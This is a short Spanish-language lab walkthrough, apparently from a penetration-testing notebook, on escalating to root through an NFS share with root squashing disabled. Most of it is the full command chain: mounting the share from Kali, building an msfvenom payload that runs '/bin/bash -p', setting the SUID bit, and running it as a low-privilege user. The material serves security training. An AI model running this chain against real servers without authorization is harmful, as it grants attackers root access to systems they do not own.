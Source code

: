 # NFS

Los archivos creados a través de NFS heredan el ID del usuario remoto. Si el usuario es root y se ha habilitado la supresión de root, el ID se establecerá en el usuario "nobody".

Verifica la configuración del recurso compartido NFS en la VM de Debian:

```bash
cat /etc/exports
```

Observa que el recurso compartido /tmp tiene la supresión de root deshabilitada.

En tu máquina Kali, cambia al usuario root si aún no estás ejecutando como root:

```bash
sudo su
```

Usando el usuario root de Kali, crea un punto de montaje en tu máquina Kali y monta el recurso compartido /tmp (actualiza la IP según corresponda):

```bash
mkdir /tmp/nfs
mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs
```

Todavía usando el usuario root de Kali, genera un payload usando msfvenom y guárdalo en el recurso compartido montado (este payload simplemente llama a /bin/bash):

```bash
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

Todavía usando el usuario root de Kali, haz el archivo ejecutable y establece el permiso SUID:

```bash
chmod +xs /tmp/nfs/shell.elf
```

De regreso en la VM de Debian, como el usuario de bajo privilegio, ejecuta el archivo para obtener una shell de root:

```bash
/tmp/shell.elf
```

<mark style="color:red;">**Recursos**</mark>

{% embed url="https://juggernaut-sec.com/nfs-no_root_squash/" %}

